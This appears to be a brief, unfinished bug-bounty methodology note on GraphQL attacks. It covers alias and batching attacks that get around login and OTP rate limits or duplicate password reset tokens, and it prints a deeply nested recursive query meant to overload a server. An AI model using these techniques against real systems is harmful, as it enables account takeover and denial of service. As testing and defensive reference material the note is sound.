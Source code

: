 1. Bypassing rate limiting on Login, OTP using [Aliases](https://portswigger.net/web-security/graphql#bypassing-rate-limiting-using-aliases)/[GraphQL Batching attack](https://lab.wallarm.com/graphql-batching-attack/)
2. Send same reset password token to 2 emails (similar to race condition) using GraphQL Batching attack
3. If a query takes long time to complete, it used to overwhelm the server by using GraphQL Batching attack

## Denial of Service :: Deep Recursion Query Attack

5. If The application offers two types, which reference eachother (Type1 has Type2, and Type2 has Type1), it recursive query to be executed successfully.

![Example](https://github.com/0xGLSS/Bug-Bounty-Methodology/assets/85647797/cc9686ca-662c-4327-95c6-e2e47ceca255)


    query {
      pastes {
        owner {
          pastes {
            owner {
              pastes {
                owner {
                  pastes {
                    owner {
                      pastes {
                        owner {
                          pastes {
                            owner {
                              name
                            }
                          }
                        }
                      }
                    }
                  }
                }
              }
            }
          }
        }
      }
    }
> [!NOTE]
> if a depth check is implemented it should prevent malicious queries from going through.

    



5. CSRF over Graphql
6. 
